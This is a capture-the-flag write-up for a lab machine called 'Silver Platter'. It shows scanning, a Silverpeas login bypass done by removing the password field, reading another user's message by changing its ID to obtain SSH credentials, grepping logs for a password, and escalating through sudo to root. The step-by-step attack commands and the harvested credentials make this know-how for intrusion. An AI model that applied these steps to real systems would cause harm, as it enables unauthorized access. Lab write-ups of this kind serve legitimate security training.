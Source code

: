 # Silver Platter
Can you breach the server? 
## Difficulty: Easy
Think you've got what it takes to outsmart the Hack Smarter Security team? They claim to be unbeatable, and now it's your chance to prove them wrong. Dive into their web server, find the hidden flags, and show the world your elite hacking skills. Good luck, and may the best hacker win!

But beware, this won't be a walk in the digital park. Hack Smarter Security has fortified the server against common attacks and their password policy requires passwords that have not been breached (they check it against the rockyou.txt wordlist - that's how 'cool' they are). The hacking gauntlet has been thrown, and it's time to elevate your game. Remember, only the most ingenious will rise to the top. 

May your code be swift, your exploits flawless, and victory yours!

#### Make sure you wait a full 5 minutes after you start the machine before scanning or doing any enumeration. This will make sure all the services have started.

## Information Gathering
```bash
nmap -sC -sV 10.201.48.47 -oN nmap_silverplatter

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-15 20:35 WIB
Nmap scan report for http://10.201.48.47
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d1:7d:1c:13:cb:38:70:8b:a8:a3:aa:68:37:05:d7:62 (ECDSA)
|_  256 73:6b:45:1b:c0:de:81:a2:14:33:2a:b5:14:7f:dd:c5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.08 seconds

```
## Enumerations
+ In http://10.201.48.47#contact we found username is `scr1ptkiddy`
+ Using gobuster found
```bash
/assets            
/images 
/index.html
```
```bash
gobuster dir -u http://10.201.74.14:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

/website              
/console              
```

In url browser search `http://10.201.17.48:8080/silverpeas/AuthenticationServlet`

Get the Login Page

Next using burpsuite and remove the password like this
```
POST /silverpeas/AuthenticationServlet HTTP/2
Host: 212.129.58.88
Content-Length: 28
Origin: https://212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=scriptkiddy&DomainId=0
```

Next check notification in page and let's go `10.201.17.48:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=5`

Change number `5` in end to `6` like this `http://10.201.17.48:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=6`

Congrast you get credentials to ssh
```bash
Dude how do you always forget the SSH password? Use a password manager and quit using your silly sticky notes. 

Username: tim

Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```
## Exploit
```bash
ssh tim@10.201.17.48
The authenticity of host '10.201.17.48 (10.201.17.48)' can't be established.
ED25519 key fingerprint is SHA256:hY5jvHqhQA0e7k0GKNCJYtPcWhrWjGRF+V3LWjjiZUs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.201.17.48' (ED25519) to the list of known hosts.
tim@10.201.17.48's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Sep 24 12:14:27 PM UTC 2025

  System load:  0.080078125        Processes:                127
  Usage of /:   60.9% of 12.94GB   Users logged in:          0
  Memory usage: 55%                IPv4 address for docker0: 172.17.0.1
  Swap usage:   0%                 IPv4 address for ens5:    10.201.17.48

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

261 updates can be applied immediately.
180 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Dec 13 16:33:12 2023 from 192.168.1.20
tim@ip-10-201-17-48:~$ ls -la
total 12
dr-xr-xr-x 2 root root 4096 Dec 13  2023 .
drwxr-xr-x 6 root root 4096 Jul 21 20:10 ..
-rw-r--r-- 1 root root   38 Dec 13  2023 user.txt

```
`Yeyy we get user.txt`

Next
```bash
tim@ip-10-201-17-48:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
tyler:x:1000:1000:root:/home/tyler:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
tim:x:1001:1001::/home/tim:/bin/bash
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
ssm-user:x:1002:1002::/home/ssm-user:/bin/sh
ubuntu:x:1003:1004:Ubuntu:/home/ubuntu:/bin/bash
```
`
grep -iR "password" /var/log
`
```bash
tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -
```
Password for tyler `_Zd_zx7N823/`
```bash
tim@ip-10-201-17-48:/var/log$ su tyler
Password: 
tyler@ip-10-201-17-48:/var/log$ 
```
```bash
tyler@ip-10-201-17-48:/var/log$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on ip-10-201-17-48:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on ip-10-201-17-48:
    (ALL : ALL) ALL
```
```bash
root@ip-10-201-17-48:/var/log# cd /root
root@ip-10-201-17-48:~# ls -la
total 52
drwx------  6 root root 4096 Jul 20 17:14 .
drwxr-xr-x 19 root root 4096 Sep 24 11:53 ..
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Jul 20 17:07 .cache
-rw-------  1 root root   20 Jul 20 17:06 .lesshst
drwxr-xr-x  3 root root 4096 Dec 13  2023 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   38 Dec 13  2023 root.txt
-rw-r--r--  1 root root   66 Dec 13  2023 .selected_editor
drwx------  3 root root 4096 Dec 12  2023 snap
drwx------  2 root root 4096 Jul 20 17:06 .ssh
-rwxr-xr-x  1 root root   97 Dec 13  2023 start_docker_containers.sh
-rw-r--r--  1 root root    0 Dec 13  2023 .sudo_as_admin_successful
-rw-------  1 root root 1309 Jul 20 17:14 .viminfo
```
```bash
root@ip-10-201-17-48:~# cat root.txt
THM{********************}
```
`Finnaly!!`